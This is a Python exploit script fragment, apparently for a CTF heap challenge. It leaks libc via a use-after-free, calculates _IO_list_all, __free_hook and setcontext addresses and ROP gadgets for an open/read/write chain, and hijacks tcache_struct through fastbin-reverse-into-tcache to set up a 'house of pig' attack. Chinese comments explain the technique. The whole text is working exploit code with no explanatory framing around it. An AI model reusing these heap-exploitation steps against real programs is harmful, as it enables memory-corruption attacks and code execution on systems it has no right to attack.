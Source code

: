 ```python
add(1)
add(0)# heap+0x2b0
edit(0,p64(0)+p64(0x421))
for i in range(33):
    add(0)

dele(1)
show(1)
libc_base = uu64()-0x1e0c00
lg('libc_base')
#--------------------------------------------------
IO_list_all= libc_base+0x1e15c0
IO_str_jumps=libc_base+0x1e2560
free_hook = libc_base+libc.sym['__free_hook']
setcontext=libc_base+libc.sym['setcontext']
magic=libc_base+0x14a0a0# mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20]; 
lg("magic")

pop_rdi=libc_base+0x0000000000028a55
pop_rsi=libc_base+0x000000000002a4cf
pop_rdx=libc_base+0x00000000000c7f32
Open=libc_base+libc.sym['open']
Read=libc_base+libc.sym['read']
Write=libc_base+libc.sym['write']
#--------------------------------------------------fastbin reverse into tcache
# 利用UAF控制了tcache_struct
# 这里无法直接填满fastbin的原因是，有idx限制，如果改count为7直接来填充fastbin需要能申请很多个不同的chunk
# 用tcache就可以依赖tcache_struct达到绕过申请bin里chunk的目的，实现free_chunk的保留
add(0)
add(1)
dele(0)
dele(1)

edit(1,p64((heap_base+0x10)^key))
add(0)
add(0)# heap+0x10/cont

add(1)
dele(1)
edit(0,p64(2))
edit(1,p64((heap_base+0x90)^key))
add(1)
add(1)# heap+0x90/entry

for i in range(8):# full in tcache
    edit(0,p64(0))
    add(2)
    edit(0,p64(i))
    dele(2)

edit(2,p64((IO_list_all+0x70)^key))


for i in range(6):# tcache into fastbin
    add(2)
    edit(0,p64(7))
    dele(2)
    edit(0,p64(6-i))

edit(0,p64(0))
add(2)# fastbin into tcache
#---------------------------------------------------house of pig
```